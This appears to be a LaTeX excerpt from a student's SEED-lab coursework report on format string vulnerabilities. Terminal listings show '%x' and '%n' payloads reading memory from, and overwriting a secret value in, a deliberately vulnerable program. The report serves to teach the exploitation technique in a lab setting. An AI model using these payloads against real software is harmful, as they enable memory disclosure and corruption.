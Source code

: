 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=bash,
  breaklines=true,
	caption=Example of printing out memory,
	label=printf:crash
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf8b258c (on stack)
The variable secret’s value is 0x 95fd008 (on heap)
secret[0]’s address is 0x 95fd008 (on heap)
secret[1]’s address is 0x 95fd00c (on heap)
Please enter a decimal integer
157274124
Please enter a string
%x.%x.%x.%x.%x.%s.%s   
bf8b2590.bf8b2610.bf8b2604.0.0.U.D
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]}}

In order to change value of the second element of \texttt{secret} array, similar approach must be taken as for printing it, i.e. we provide address of the value that interests us to be stored int \texttt{int\_input} variable, then we must pop elements of the stack by providing format specifier with a number of \texttt{\%x}s, and then instead of printing value of heap memory in location contained in the next element on the stack, we can use \texttt{\%n} to write modify the memory location. Example is shown in listing~\ref{printf:change}. As we can see, we are able to change the value of the secret from 0x55 to 0x1a.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory,
	label=printf:change,
	breaklines=true,
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf83550c (on stack)
The variable secret’s value is 0x 9448008 (on heap)
secret[0]’s address is 0x 9448008 (on heap)
secret[1]’s address is 0x 944800c (on heap)
Please enter a decimal integer
155484172
Please enter a string
%x%x%x%x%x%n
bf835510bf835590bf83558400
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x1a
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]} to a pre-determined value}
\end{document}
